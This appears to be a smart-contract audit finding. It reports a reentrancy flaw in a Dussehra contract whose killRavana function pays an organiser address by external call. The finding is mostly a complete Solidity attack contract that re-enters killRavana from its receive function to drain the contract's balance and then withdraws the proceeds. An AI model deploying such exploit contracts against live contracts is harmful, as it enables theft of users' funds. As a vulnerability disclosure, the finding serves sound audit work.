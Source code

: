 
A malicious contract can act as the organizer and drain all the funds.

## Vulnerability Details
`Dussehra::killRavana` distributes funds to `RamNFT::organiser` making an external call. If `RamNFT::organiser` is a malicious contract, it can drain all the funds.<br>
<br>
`Attack Contract`:
```js
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

interface IChoosingRam {
    function selectRamIfNotSelected() external;
}

interface IDussehra {
    function killRavana() external;
}

contract OrganizerReenter {
    address private immutable owner;
    IChoosingRam choosingRam;
    IDussehra dussehra;

    modifier onlyOwner() {
        if (msg.sender != owner) {
            revert();
        }
        _;
    }

    constructor() {
        owner = msg.sender;
    }

    function setContracts(address _dussehra, address _chooingRam) public onlyOwner{
        dussehra = IDussehra(_dussehra);
        choosingRam = IChoosingRam(_chooingRam);
    }

    function attack() public onlyOwner {
        choosingRam.selectRamIfNotSelected();
    }

    function withdraw() public onlyOwner {
        (bool success, ) = msg.sender.call{value: address(this).balance}("");
        if (!success) {
            revert();
        }
    }

    receive() external payable {
        while (address(dussehra).balance > 1 ether) {
            dussehra.killRavana();
        }
    }
}
```
- The malicious user pulling the strings will use a contract like this that will function the as `RamNFT::organiser`
- This attack contract will end up being the deployer for `RamNFT` giving it `RamNFT::onlyOrganiser` privileges. 